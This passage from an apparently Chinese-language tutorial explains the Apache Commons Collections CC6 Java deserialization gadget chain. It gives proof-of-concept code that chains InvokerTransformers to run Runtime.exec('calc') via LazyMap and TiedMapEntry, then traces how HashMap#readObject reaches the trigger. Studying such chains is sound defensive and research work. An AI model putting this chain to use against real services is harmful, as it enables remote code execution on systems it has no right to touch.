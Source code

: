 ```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class cc6 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        tiedmap.hashCode();
    }
}
```

所以需要找一个触发 TiedMapEntry#hashCode 的地方。这里使用的是 HashMap#hash 方法，

![1](./img/330.png)

而 HashMap#readObject 方法也调用到了 HashMap#hash 方法：

![1](./img/331.png)
